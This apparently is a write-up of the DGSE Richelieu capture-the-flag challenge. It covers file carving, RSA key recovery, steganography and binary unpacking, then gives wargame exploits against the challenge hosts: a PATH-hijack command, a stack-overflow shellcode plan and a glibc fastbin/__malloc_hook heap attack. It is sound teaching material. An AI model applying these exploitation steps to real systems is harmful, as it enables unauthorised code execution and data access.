



# Introduction

The [Richelieu challenge](http://www.challengecybersec.fr) is an [official](https://www.defense.gouv.fr/dgse/tout-le-site/le-challenge-richelieu-est-ouvert) game created by the french external intelligence agency (DGSE).

The challenge is named after the french Cardinal [Jean du Plessis de Richelieu](https://en.wikipedia.org/wiki/Cardinal_Richelieu) who helped to develop cryptanalysis  in France four centuries ago.

# First contact

The challenge starts with a website running a green-colored UI:

It is quite funny to notice that the root Certificate Authority for the website is "DST", the previous name of another french intelligence agency (DGSI).

A quick first look at the page code source brings a link to a PDF file:

This document seems heavy:

    $ wget -q https://www.challengecybersec.fr/Richelieu.pdf
    $ ls -lh Richelieu.pdf 
    -rw-r--r-- 1 test test 9,3M mai    6 16:07 Richelieu.pdf

# PDF about Richelieu

The 364-page document contains a lot of tiny blank characters.

At the end the [padding mark](https://en.wikipedia.org/wiki/Base64#Output_padding) of a base64 encoded content appears ("=="):

Using [pdf2txt](https://www.unixuser.org/~euske/python/pdfminer/) is a nice way to automate the conversion of all the content into a decoded content:

    $ pdf2txt Richelieu.pdf > pdf-content.txt
    $ < pdf-content.txt tr -s "\n" \
        | sed "s/\x0c//g" \
        | sed "1,8d" \
        | base64 -d > pdf-content.bin

The final result is a picture:

    $ file pdf-content.bin
    pdf-content.bin: JPEG image data, progressive, precision 8, 2110x3508, components 1

# Picture analysis

Looking for strings inside the image file provides some interesting attention points:

    $ strings -a pdf-content.bin
    [...]
    :JuO?	/z1zO
    8HZSk
    a#W|+
    ~8!6
    .bash_historyUT
    Le mot de passePK
    suite.zipUT
    de cette archivePK
    prime.txtUT
    est : DGSE{t.D=@Bx^A%n9FQB~_VL7Zn8z=:K^4ikE=j0EGHqI}PK
    public.keyUT
    motDePasseGPG.txt.encUT
    lsb_RGB.png.encUT

"DGSE{xxxx}" is the expected form for passwords in this challenge.

Moreover files (**.bash_history**, **suite.zip**, **prime.txt**, aso) seem to be embedded in the picture, let us extract them using [binwalk](https://github.com/ReFirmLabs/binwalk):

    $ binwalk -e pdf-content.bin 
    
    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    445628        0x6CCBC         Zip archive data, encrypted at least v2.0 to  extract, compressed size: 264, uncompressed size: 578, name: .bash_history
    445979        0x6CE1B         Zip archive data, encrypted at least v1.0 to  extract, compressed size: 343, uncompressed size: 331, name: suite.zip
    446405        0x6CFC5         Zip archive data, encrypted at least v2.0 to  extract, compressed size: 455, uncompressed size: 868, name: prime.txt
    446943        0x6D1DF         Zip archive data, encrypted at least v2.0 to  extract, compressed size: 643, uncompressed size: 800, name: public.key
    447670        0x6D4B6         Zip archive data, encrypted at least v1.0 to  extract, compressed size: 524, uncompressed size: 512, name: motDePasseGPG.txt.enc
    448289        0x6D721         Zip archive data, encrypted at least v2.0 to  extract, compressed size: 6244198, uncompressed size: 6243231, name: lsb_RGB.png.enc
    6693156       0x662124        End of Zip archive, footer length: 22

The first ZIP archive is the only valid recovered file:

    $ file _pdf-content.bin.extracted/*
    _pdf-content.bin.extracted/6CCBC.zip:             Zip archive data, at least v2.0 to extract
    _pdf-content.bin.extracted/lsb_RGB.png.enc:       empty
    _pdf-content.bin.extracted/motDePasseGPG.txt.enc: empty
    _pdf-content.bin.extracted/prime.txt:             empty
    _pdf-content.bin.extracted/public.key:            empty
    _pdf-content.bin.extracted/suite.zip:             empty

Let us try an extraction using the password found in the picture :

    $ unzip _pdf-content.bin.extracted/6CCBC.zip -d _pdf-content.bin.extracted/
    Archive:  _pdf-content.bin.extracted/6CCBC.zip
    [_pdf-content.bin.extracted/6CCBC.zip] .bash_history password: 
    replace _pdf-content.bin.extracted/.bash_history? [y]es, [n]o, [A]ll, [N]one, [r]ename: A
      inflating: _pdf-content.bin.extracted/.bash_history  
     extracting: _pdf-content.bin.extracted/suite.zip  
      inflating: _pdf-content.bin.extracted/prime.txt  
      inflating: _pdf-content.bin.extracted/public.key  
     extracting: _pdf-content.bin.extracted/motDePasseGPG.txt.enc  
      inflating: _pdf-content.bin.extracted/lsb_RGB.png.enc  

More content gets available:

    $ file _pdf-content.bin.extracted/*
    _pdf-content.bin.extracted/6CCBC.zip:             Zip archive data, at least v2.0 to extract
    _pdf-content.bin.extracted/lsb_RGB.png.enc:       GPG symmetrically encrypted data (AES256 cipher)
    _pdf-content.bin.extracted/motDePasseGPG.txt.enc: data
    _pdf-content.bin.extracted/prime.txt:             ASCII text
    _pdf-content.bin.extracted/public.key:            ASCII text
    _pdf-content.bin.extracted/suite.zip:             Zip archive data, at least v2.0 to extract

# Breaking cryptography

The bash history provides creation context:

    $ cat .bash_history 
     1337  gpg -o lsb_RGB.png.enc --symmetric lsb_RGB.png
     1338  vim motDePasseGPG.txt
     1339  openssl genrsa -out priv.key 4096
     1340  openssl rsa -pubout -out public.key -in priv.key
     1341  openssl rsa -noout -text -in priv.key | grep prime1 -A 18 > prime.txt
     1342  sed -i 's/7f/fb/g' prime.txt
     1343  sed -i 's/e1/66/g' prime.txt
     1344  sed -i 's/f4/12/g' prime.txt
     1345  sed -i 's/16/54/g' prime.txt
     1346  sed -i 's/a4/57/g' prime.txt
     1347  sed -i 's/b5/cd/g' prime.txt
     1348  openssl rsautl -encrypt -pubin -inkey public.key -in motDePasseGPG.txt -out motDePasseGPG.txt.enc

So the creation process was the following one:

1. The **lsb_RGB.png** picture has been encrypted using a password.
2. The password got stored in the **motDePasseGPG.txt** file.
3. A RSA key pair has been generated (**priv.key** and **public.key**).
4. The "prime1" part of the private key was saved in a modified form into **prime.txt**.
5. The **motDePasseGPG.txt** file was encrypted using the public key.

Here the challenge is to retrieve the private key in order to get the password used for encrypting the PNG picture.

## Recovering the prime1

The **sed** command calls replace byte "A" by byte "B".

But all bytes "B" in the final content may not be original bytes "A".

The Python script [deprime.py](deprime.py) generates all the 2048 possible combinations using [itertools](https://docs.python.org/fr/3/library/itertools.html):

    $ python3 ./deprime.py
    
    $ ls -l OUTPUT-* | wc -l
    2048

The **openssl** tool helps to filter good candidates:

    $ for f in $( ls OUTPUT* ); do \
        openssl prime -hex $( < $f tr -d : ); \
    done | grep 'is prime'

Three prime numbers are found.

Which one is relative to our RSA key pair?

## Recovering the private key

**openssl** offers some details about the public key:

    $ openssl rsa -inform PEM -text -noout -pubin < public.key
    RSA Public-Key: (4096 bit)
    Modulus:
        00:cd:5f:8a:24:c7:60:50:08:89:7a:3c:92:2c:0e:
        81:2e:76:9d:e0:a4:64:42:c3:50:cb:78:c7:86:85:
        39:f3:d3:8a:ac:80:b3:e6:a5:06:60:59:10:e8:59:
        98:06:b4:d1:d1:48:f2:f6:b8:1d:a0:47:96:a8:a5:
        ae:e1:8f:29:e8:3e:16:77:5a:2a:0a:00:87:05:41:
        f6:57:4e:d1:43:86:36:ae:0a:0c:11:6e:07:10:4f:
        48:f7:20:94:86:3a:38:69:e1:c8:fc:22:06:27:27:
        89:62:fb:22:87:3e:31:56:f1:8e:55:de:c9:4e:97:
        00:64:ec:7f:4e:0e:88:45:40:12:e2:fd:5d:fe:5f:
        8d:19:bf:17:0f:9c:cb:3f:46:e0:fd:10:19:bc:b0:
        2d:90:83:a0:70:3c:61:7f:99:63:79:e6:47:83:54:
        a7:3a:e6:e6:ac:bc:e1:f4:33:3e:cf:af:24:36:6a:
        3e:97:7d:3c:d3:cb:fe:8d:8a:38:7b:d8:76:bf:da:
        b8:48:8f:6f:47:bf:1f:be:33:01:0f:d2:d7:e2:2b:
        4d:b2:e5:67:78:3c:e0:b6:06:db:86:b9:37:59:71:
        4c:4f:63:96:a7:fb:9f:74:c4:02:10:43:b0:f3:d4:
        6d:26:33:eb:d4:3a:87:78:63:df:7d:68:0f:50:65:
        87:c1:19:dd:64:10:0c:a8:31:ce:2a:f3:3d:95:1b:
        52:4c:5f:06:b4:9f:5b:f2:cb:38:1e:74:18:19:30:
        d0:6a:80:50:5c:06:ab:d5:bf:48:70:f0:c9:fb:58:
        1b:d8:0d:ba:88:96:60:63:9f:93:6e:de:a8:fe:5d:
        0c:9e:ae:58:06:2e:d6:93:25:25:83:c7:1c:c7:82:
        ba:61:3e:01:43:8e:69:b4:3f:9e:64:ec:a8:4f:9e:
        a0:4e:81:1a:d7:b3:9e:fd:78:76:d1:b6:b5:01:c4:
        f4:8a:cc:e6:f2:42:39:f6:c0:40:28:78:81:35:cd:
        88:c3:d1:5b:e0:f2:eb:b7:de:9e:9c:19:a7:a9:30:
        37:00:5e:e0:a9:a6:40:ba:da:33:2e:c0:d0:5e:e9:
        f0:8a:83:23:54:a0:48:7a:92:7d:5e:88:06:6e:25:
        69:e6:c5:d4:68:8e:42:2b:fa:0b:27:c6:17:1c:6d:
        7b:f0:29:bf:d9:16:57:52:af:19:aa:71:b3:3a:1e:
        a7:0b:6c:37:1f:b2:1e:47:f5:27:d8:0b:7d:04:f5:
        82:ad:9f:99:35:af:72:36:82:dc:01:ca:98:80:62:
        18:70:de:cb:7a:d1:56:48:cd:f4:ef:15:30:16:f3:
        e6:d8:79:33:b8:ec:54:cf:a1:fd:f8:7c:46:70:20:
        a3:e7:53
    Exponent: 65537 (0x10001)

So we know the following [RSA items](https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Key_generation): **n** and **e**, from the public key, and **p** from the **prime.txt** file.

"n = pq" means "q = n/p" and "n % p == 0".

The [div_bn.c](div_bn.c) C program compute such "q" value thanks to OpenSSL big number support:

    $ make div_bn CFLAGS=-Wall LDFLAGS=-lcrypto

    $ ./div_bn 
    FB40DC44BA03D15342F75908E0F9300596644ADE94685E08E28C9AB1640C2F62[...]
    RESULTAT:
    D140C9D7AD1F7E0B2D09C4C2DC2C2AD97D957FF8040556D729619D8BC9C53B28[...]
    RESTE:
    0

Even if rebuilding RSA keys [using specific input numbers](https://stackoverflow.com/questions/19850283/how-to-generate-rsa-keys-using-specific-input-numbers-in-openssl/19855935#19855935) is possible, we chose to continue relying on Python: the [rebuild_private_key.py](rebuild-private-key.py) took from [0day.work](https://0day.work/how-i-recovered-your-private-key-or-why-small-keys-are-bad/) does the same job.

    $ python -c "import rebuild_private_key as rpk ; rpk.recover_key(0xFB40DC44BA03D153[...], 0xD140C9D7AD1F7E0B[...], 0x10001, 'priv.key')"
    
    $ file priv.key 
    priv.key: PEM RSA private key

The **motDePasseGPG.txt** text file can now get decrypted:

    $ openssl rsautl -decrypt -inkey priv.key -in motDePasseGPG.txt.enc -out motDePasseGPG.txt

And so does the PNG picture with the new password:

    $ gpg -d --output lsb_RGB.png lsb_RGB.png.enc
    gpg: données chiffrées avec AES256
    gpg: chiffré avec 1 phrase secrète
    
    $ file lsb_RGB.png
    lsb_RGB.png: PNG image data, 1562 x 2424, 8-bit/color RGB, non-interlaced

# Breaking steganography

The PNG filename is a serious hint!

Let us try to detect hidden data with [zsteg](https://github.com/zed-0xff/zsteg).

First step, installation:

    # apt-get install rubygems
    $ gem install --user-install zsteg
    $ export PATH=$HOME/.gem/ruby/2.5.0/bin:$PATH

Then the filename provides the useful options to run **zsteg**:

The first result is interesting as an ELF header is somehow recognized.

Let us extract it:

    $ zsteg -E 'b1,rgb,lsb,yx' lsb_RGB.png > hidden.out

This seems to bee an **xxd** output:

    $ head -20 hidden.out 
    00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
    00000010: 0200 3e00 0100 0000 107f 4400 0000 0000  ..>.......D.....
    00000020: 4000 0000 0000 0000 0000 0000 0000 0000  @...............
    00000030: 0000 0000 4000 3800 0200 4000 0000 0000  ....@.8...@.....
    00000040: 0100 0000 0500 0000 0000 0000 0000 0000  ................
    00000050: 0000 4000 0000 0000 0000 4000 0000 0000  ..@.......@.....
    00000060: 2487 0400 0000 0000 2487 0400 0000 0000  $.......$.......
    00000070: 0000 2000 0000 0000 0100 0000 0600 0000  .. .............
    00000080: 2854 0b00 0000 0000 2854 6b00 0000 0000  (T......(Tk.....
    00000090: 2854 6b00 0000 0000 0000 0000 0000 0000  (Tk.............
    000000a0: 0000 0000 0000 0000 0000 2000 0000 0000  .......... .....
    000000b0: a5ad 778d 414c 4421 2008 0d16 0000 0000  ..w.ALD! .......
    000000c0: 5044 0b00 5044 0b00 9001 0000 9200 0000  PD..PD..........
    000000d0: 0800 0000 f7fb 93ff 7f45 4c46 0201 0103  .........ELF....
    000000e0: 0002 003e 0001 0e90 0940 1fdf 2fec db40  ...>.....@../..@
    000000f0: 2fd0 3c0b 4526 3800 060a 1e00 1f6c 60bf  /.<.E&8......l`.
    00000100: 1d57 0500 0140 0f13 140b af7b 6d20 0020  .W...@.....{m . 
    00000110: 0b6f 0606 b8b3 07d2 b21e 2f0e 6b98 1c5b  .o......../.k..[
    00000120: 702d 7b3b d835 006f 0407 9001 2b0e 40c9  p-{;.5.o....+.@.
    00000130: 817c 2044 0000 0476 1b62 db07 17df 204f  .| D...v.b.... O

We can discard the final junk data and rebuild the original ELF binary by running the following commands:

    $ < hidden.out egrep -ae '^[0-9a-f]+: ' | xxd -r > hidden.elf
    
    $ file hidden.elf 
    hidden.elf: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header

# Breaking obfuscation

## Unpacking process

The executable seems to be packed, by an unknown packer based on UPX:

    $ strings -a hidden.elf | grep -i pack
    $Info: This file is packed with the ALD executable packer http://upx.sf.net $

The two packers are different enough to confuse UPX:

    $ upx -t hidden.elf 
                           Ultimate Packer for eXecutables
                              Copyright (C) 1996 - 2018
    UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018
    
    upx: hidden.elf: NotPackedException: not packed by UPX
    
    Tested 0 files.

Quite strange fun fact, ALD seems to be a simple rebranded UPX clone. Even the **UPX!** markers are translated:

    $ strings -a hidden.elf | grep ALD
    ALD! 
    $Info: This file is packed with the ALD executable packer http://upx.sf.net $
    $Id: ALD 3.91 Copyright (C) 1996-2013 the ALD Team. All Rights Reserved. $
    ALD!
    ALD!

The rebranding can be reversed:

    $ sed -i 's/ALD/UPX/g' hidden.elf

The new binary offers better results:

    $ upx -t hidden.elf
                           Ultimate Packer for eXecutables
                              Copyright (C) 1996 - 2018
    UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018
    
    testing hidden.elf [OK]
    
    Tested 1 file.
    
    $ upx -d hidden.elf 
                           Ultimate Packer for eXecutables
                              Copyright (C) 1996 - 2018
    UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018
    
            File size         Ratio      Format      Name
       --------------------   ------   -----------   -----------
        738384 <-    297492   40.29%   linux/amd64   hidden.elf
    
    Unpacked 1 file.

This new binary contains now more information:

    $ file hidden.elf 
    hidden.elf: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=280771ce69bcde48b3a996331811768a49c7c120, stripped

## Alternative way

Dynamic debugging can be used to solve this challenge, too.

The address of the provided password is known as soon as the program starts.

Thanks to hardware breakpoints, it is then possible to track all usages of this password.

Theses usages lead to the function where the password gets compared, in an area of address range equal to 0x400xxx:

# Cracking the binary

As nominal behavior, the program expects a password:

    $ ./hidden.elf 
    usage : ./hidden.elf <mot de passe>

[IDA](https://www.hex-rays.com/products/ida/) shows strings displayed with right password:

The main function can then get located using cross-references:

Which leads us to the function where the encrypted password is unxor'ed byte by byte, and compared with the submitted password:

The Python script [unxor.py](unxor.py) retrieves the expected password.

The **suite.zip** content can now get decompressed:

    $ unzip suite.zip 
    Archive:  suite.zip
    [suite.zip] suite.txt password: 
      inflating: suite.txt

# Wargame - level 1

Let us connect to the target machine:

    $ ssh defi1.challengecybersec.fr -l defi1 -p 2222
    defi1@defi1.challengecybersec.fr's password: 
    Linux defi1 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64
    
    
    Partie Wargame du CTF Richelieu
    
    Outils disponibles:
    *******************
    
      * gdb (avec peda)
      * python 2.7
      * pwnlib
      * checksec
      * vim
      * emacs
      * nano
      * ltrace
      * strace
      * ...
    
    ATTENTION : les connexions sont coupées et les fichiers sont détruits
    automatiquement au bout de 1 heure.
    Pensez à sauvegarder vos fichiers sur un autre poste pour ne pas les perdre.
    
    defi1@AttrapeLeDrapeau:~$ id
    uid=1000(defi1) gid=1000(defi1) groups=1000(defi1)

The rules are simple: use the **prog.bin** to access the **drapeau.txt** content.

    $ ./prog.bin 
    #################################################
    ##    Bienvenue dans ce lanceur (_wrapper_)    ##
    #################################################
    Ce logiciel vous permet de lancer ces programmes utiles simplement...
    Menu :
       -> 1 : Affichage de la date et de l'heure actuelle
       -> 2 : Affichage du nombre de secondes écoulées depuis le 01/01/1970 (Epoch)
       -> 3 : Affichage du train
       -> 4 : Affichage du calendrier du mois en cours

The program relies on **date** and calls to system() for its features:

    $ ltrace ./prog.bin
    [...]
    system("date '+Nous sommes le %d/%m/%Y e"...
    [...]

This behavior is confirmed thanks to IDA:

The flag content is then easy to get:

    $ echo "/bin/cat /home/defi1/drapeau.txt" > /tmp/date
    $ chmod +x /tmp/date
    $ PATH=/tmp ./prog.bin <<< 1

# Wargame - level 2

## Theory

*Bis repetita placent*, but this time the target seems ready for a stackoverflow-based exploitation :

The program is a login/password checker:

    $ ./prog.bin 
    ************************************************
    ** Vérification du couple login/mot de passe. **
    ************************************************
    login $ AA  
    pass $ BB
    [-] mot de passe trop petit (moins de 8 caractères)
    [-] il n'y a pas de nombre
    [-] il n'y a pas de minuscule
    [-] il n'y a pas de caractère spécial
    Pas bon. Il vaudrait mieux utiliser un autre couple login/mot de passe
    defi2@AttrapeLeDrapeau:~$ 
    defi2@AttrapeLeDrapeau:~$ ./prog.bin 
    ************************************************
    ** Vérification du couple login/mot de passe. **
    ************************************************
    login $ AA
    pass $ bB1@bB1@bB1
    Okay, vous pouvez utiliser ce couple login/mot de passe pour le login AA.

The real main function contains a mistake when getting the user input as password:

Where as the login is read by a call to fgets(), the password is retrieved with a call to scanf() and stored in a 0x30-byte long area.

The stack layout is the following one:

    -------------
    | saved RIP |
    -------------
    | saved RBP |
    -------------
    | "var_30"  |
    -------------
    |    "s"    |
    -------------

As there is no canary to protect the saved RIP on the stack, providing more than 0x30 bytes for the password will drive to stackoverflow.

Moreover there is no execution protection ("NX disabled") for this stack.

So the password can contain code.

Another interesting detail is the return value: if login/password is considered as string enough, the **rax** register points to the login (in the parent stack frame). Otherwise **rax** is set to NULL.

[ROPgadget](https://github.com/JonathanSalwan/ROPgadget) helps to find gadgets providing a call to rax:

The battle plan is then:

1. Fill a shellcode as login.
2. Build a strong password and overwrite the return address (saved RIP) with the gadget address.
3. Profit.

## Overwrite offset

The current case is not so complex, but here is a way to compute the offset between the adress of "var_30" and the adress of "saved RIP".

At first we use **pwntools** to create an array of unique sequences:

    $ python -c 'from pwn import * ; print(cyclic(160))'
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaab

Then we run the target program and note the crash position in the supplied pattern:

    $ gdb -q ./prog.bin 
    Reading symbols from ./prog.bin...(no debugging symbols found)...done.
    gdb-peda$ r
    Starting program: /home/defi2/prog.bin 
    warning: Error disabling address space randomization: Operation not permitted
    ************************************************
    ** Vérification du couple login/mot de passe. **
    ************************************************
    login $ AAA
    pass $  aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaava  aawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaab
    ATTENTION : le login est réduit à 10 caractères
    [-] le mot de passe est compris dans le login (ou l'inverse)
    [-] il n'y a pas de nombre
    [-] il n'y a pas de majuscule
    [-] il n'y a pas de caractère spécial
    
    Program received signal SIGSEGV, Segmentation fault.
    
    gdb-peda$ x /s $rsp 
    0x7ffd5955e5b8: "oaaapaaaqaaaraaasa"

Finally **pwntools** provide the relative offset:

    $ python -c 'from pwn import * ; print(cyclic_find("oaaapaaaqaaaraaasa"))'
    [!] cyclic_find() expects 4-byte subsequences by default, you gave  'oaaapaaaqaaaraaasa'
        Unless you specified cyclic(..., n=18), you probably just want the first 4  bytes.
        Truncating the data at 4 bytes.  Specify cyclic_find(..., n=18) to override this.
    56

As expected, 7 64-bit words will be consumed to overwrite the saved RIP: 6 for "var_30" and 1 for the saved RBP.

## Original shellcode

There are [plenty of shellcodes](https://www.exploit-db.com/shellcodes/46907) on the Internet.

For fun, a [new shellcode](defi2.S) has been created for the challenge.

This shellcode call chmod() before exiting to give access to the flag to everyone.

The binary code can be retrieved with these commands:

    $ yasm -f elf64 defi2.S -o defi2.o
    $ objdump -d -M intel defi2.o \
        | grep '[0-9a-f]:' \
        | sed 's#.*:\t\([^\t]*\).*#\1#' \
        | sed 's#^# #' \
        | tr -d "\n" \
        | tr -s " " \
        | sed 's# *$##' \
        | sed 's# #\\x#g'

## Final action

The Python script [run2.py](run2.py) runs the final attack:

# Wargame - level 3

## Discovering

The current level binary has a new kind of configuration:

This level deals with "items".

Each item is composed of:

* a pointer to a name (max allocation size: 0x500 bytes).
* a pointer to an identifier (with variable allocation size, see hereinafter).

Thus the final size of the overall "item" structure is 0x10 bytes, as the challenge VM runs a x64 architecture.

Up to 30 items can be registered within the interface.

## ID allocation size

The maximum size of an identifier depends on an optional argument provided from command line. This value has to be between 1 and 100.

If no value is provided, the ID size is 50 bytes by default.

The limit is used in the function creating identifiers from user input at 0x400824 :

## The bug to exploit

The attacker can rely on a mistake existing when deleting item resources: the allocated pointer is free()'d as expected, but the pointer storage location is not reset.

This drives to a perfect Use-After-Free:

* we get a read primitive by displaying all items.
* we get a write primitive by updating item names or item identifiers.

The goal of this level is to extend these two primitives in order to reach controlled execution at the end.

Heap exploitation will likely be used, so in order to understand how heap allocation works, a really good starting point is reading the [Heap Exploitation Book](https://heap-exploitation.dhavalkapil.com/).

Most of the book key points are saved in the [relative repository](https://github.com/DhavalKapil/heap-exploitation/tree/master/diving_into_glibc_heap).

The [Educational Heap Exploitation repository](https://github.com/shellphish/how2heap/), written by the CTF team called Shellphish, is a good place to find exploitation ideas, too.

## Setup a debug environment

The challenge VM is an up-to-date Debian Stretch instance:

    $ cat /etc/debian_version 
    9.9
    $ cd /lib/x86_64-linux-gnu/
    $ sha256sum libc-2.24.so
    d37be6b076bed6b4031451c8495aca3f350273e90dd5b97721f6b167b88ce1ea  libc-2.24.so

Installing extra pieces of software is not pleasant once connected to the VM.

So the best choice is to setup a local VM with Debian and install [Pwntools](https://github.com/Gallopsled/pwntools) and [libheap](https://github.com/cloudburst/libheap) on it.

As both VM environments are the same, the final exploitation script would be able to run without any change.

## Gaining an arbitrary write primitive

Depending on the processed size, the allocator deals with memory chunks using different kinds of bins.

The **glibc-2.28/malloc/malloc.c** file defines **fastbins** for some kinds of memory areas:

So in the present case, **fastbins** are memory areas with sizes up to 160 bytes. 

Let us create one small item, and let us free its name and its identifier.

The deleted fastbin list is the following one:

Moreover the list is a single linked list.

In this LIFO mode (Last In, First Out), the next allocation will consume the head chunk 0x603940 and register the next chunk defined at 0x603950 (which refers to 0x603960 here) as the next head chunk.

The second next allocation will then consume the chunk located at 0x603960.

As the running binary gives write access to freed items, the idea is to change the forward pointer to next chunk inside a chosen freed **fastbin**.

An call to malloc() will provide this chunk as a result, so overwriting the forward pointer is a good way to get access to a chosen address with write access, as we can define item content.

## Selecting a target address

One common trick is to use the **__malloc_hook** which exists in the **libc**. This hook is not used by default but gets called each time **malloc()** is called if defined.

**__malloc_hook** has two interesting properties:

* it is a function pointer in a R/W area inside the libc.
* it is located a few bytes after a nice memory pattern :

0x7ffff7dd3acd could mimic a fake chunk of size 0x7f & ~0x3 = 0x7c bytes.

To overwrite the **__malloc_hook** and gain arbitrary execution, the following steps are required :

* set the value (&__malloc_hook - 0x23) as the forward pointer inside a freed fastbin.
* call **malloc()** with the needed size in order to get access to the fake chunk and consume all its size.
* update the **__malloc_hook** value (with 0x23 - 0x10 bytes as padding and a *one_gadget* address for instance).
* call **malloc()** and profit!

To ease the exploitation process, names and identifiers have to have the same size in order to get collected in the same fastbin level.

So the **prog.bin** has to be run with **100** as extra parameter:

* 100 = 0x64 = 0x74 - 0x10 (libc allocator overhead).
* fake chunk size = (0x7f & ~0x3) = 0x7c ~= 0x74.

## Leaking the libc base address

The system enables process address space randomization:

The [Linux Kernel](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/Documentation/sysctl/kernel.txt) provides documentation about the parameter:

    [...]
    
    1 - Make the addresses of mmap base, stack and VDSO page randomized.
        This, among other things, implies that shared libraries will be
        loaded to random addresses.  Also for PIE-linked binaries, the
        location of code start is randomized.  This is the default if the
        CONFIG_COMPAT_BRK option is enabled.
    
    2 - Additionally enable heap randomization.  This is the default if
        CONFIG_COMPAT_BRK is disabled.
    
    [...]

The **libc** addresses change between runs but they can be guessed:

* the address space randomization does not change the offset between text and data in the mapped **libc**.
* relying on the UAF access, we can display the forward pointer of a [freed smallbin](https://github.com/DhavalKapil/heap-exploitation/blob/master/diving_into_glibc_heap/malloc_chunk.md#free-chunk).

The full process is easy:

* create an item with the string 'A' * 80 * 2 as name (to target a **smallbin** instead of a **fastbin**).
* delete this name.
* display the item and filter the output.

The grabbed value points to the **main_arena** "top" field. This arena is a [**malloc_state** structure](https://github.com/DhavalKapil/heap-exploitation/blob/master/diving_into_glibc_heap/malloc_state.md) located in the data section of the **libc**.

The base address of the **libc** can then be deduced, and the **__malloc_hook** one as well.

Another interesting area inside the **libc** is the [One-gadget](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html) ; it is an useful gadget which leads to call **execve('/bin/sh', NULL, NULL)**.

The [onegadget.py](onegadget.py) script helps to retrieve address(es) of such a gadget.

## Putting all together

The Pythonscript [run3.py](run3.py) automates the exploitation process.

Some of the comments inside the file should help to understand the whole meaning of the code.

# Conclusion

Richelieu was a very interesting CTF which allows to discover new exploitation tools.

Looking forward to the next game from the DGSE!